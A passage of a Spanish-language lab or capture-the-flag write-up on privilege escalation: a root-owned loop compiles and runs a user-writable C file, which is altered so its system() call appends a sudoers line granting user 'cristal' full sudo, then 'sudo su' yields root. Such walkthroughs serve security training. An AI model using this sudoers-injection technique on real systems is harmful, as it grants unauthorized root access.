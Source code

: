 ### Explotacion de Privilegios

###### Usuario `[ cristal ]`:
Listando los procesos del sistema vemos que estan ejecutando **root** en el systema:
```bash
root          41  0.0  0.0   4324  3264 ?        S    20:37   0:00 /bin/bash /home/cristal/systm.sh
```

Si revisamos el contenido:
```bash
#!/bin/bash

var1="/home/cristal/systm.c"
var2="/home/cristal/syst"

while true; do
      gcc -o $var2 $var1
      $var2
      sleep 15
done
```

Esta compilando el archivo y lo guarad como **syst** como tenemos capacidad de escritura sobre ese archivo y sabiendo que lo ejecuta **root** nos aprovechamos de eso para modificarlo
Modificamos el **systm.c**
```c
int main() {
    const char *log_filename = "/tmp/registros.log";

    // Comando a ejecutar
    const char *command = "echo 'cristal    ALL=(ALL:ALL) ALL' >> /etc/sudoers";
    (void)system(command);

    log_system_info(log_filename);

    return 0;
}
```

Despues ejecutamos:
```bash
sudo -l
```

```bash
User cristal may run the following commands on 4908ac5e2c44:
    (ALL : ALL) ALL
```

```bash
# Comando para escalar al usuario: ( root )
sudo su
```

---

